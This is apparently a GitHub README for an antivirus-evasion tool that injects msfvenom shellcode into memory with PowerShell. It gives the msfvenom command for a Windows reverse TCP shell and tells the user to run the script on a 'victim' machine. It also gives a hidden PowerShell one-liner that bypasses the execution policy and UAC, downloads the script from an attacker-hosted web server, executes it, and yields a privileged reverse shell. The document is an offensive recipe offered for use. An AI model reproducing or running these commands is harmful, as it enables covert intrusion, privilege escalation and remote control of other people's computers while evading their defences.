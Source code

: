 # AntiVirus-bypass-PowerShell-In-Memory-Injection
Script made for bypassing antivirus using Powershell Injection method. Place your shellcode from msfvenom on line 15

[VirusTotal Scan 19/59](https://www.virustotal.com/gui/file/449a8fa6c25894a068b31a62399fda83093cdf430cad98ef579dd70d39df0907/detection)

<h3>Example of the payload needed:</h3>

```
msfvenom -p windows/shell/reverse_tcp LHOST=IPkali LPORT=4444 -f powershell
```

<h3>Then we copy the payload like this:</h3>

![Captura de pantalla 2023-02-27 210003.jpg](https://raw.githubusercontent.com/sergiovks/AntiVirus-Bypass-PowerShell-In-Memory-Injection/main/screenshots/Captura%20de%20pantalla%202023-02-27%20210003.jpg)

<h3>And paste the payload to the 15th line of the .ps1 file:</h3>

![Captura de pantalla 2023-02-27 210359.jpg](https://raw.githubusercontent.com/sergiovks/AntiVirus-Bypass-PowerShell-In-Memory-Injection/main/screenshots/Captura%20de%20pantalla%202023-02-27%20210359.jpg)

<h3>Save the final PowerShell script and run it within the victim Windows machine.</h3>

<h3>We can combine this script with the use of the following command in order to download and inject the script as an Administrator user bypassing UAC, obtaining a privileged reverse shell:</h3>

First of all you have to setup a python web server to host the payload, change the attacker IP and the PowerShell script name.

```
python3 -m http.server 80
```

Then you can use this command within the Windows target system:

```
$RegValue = "C:\Windows\System32\WindowsPowerShell\v1.0\powershell.exe -ep Bypass -windowstyle hidden -nop iex (New-Object Net.WebClient).DownloadString('http://IPattacker/AVbypass.ps1'); Invoke-Function"
```

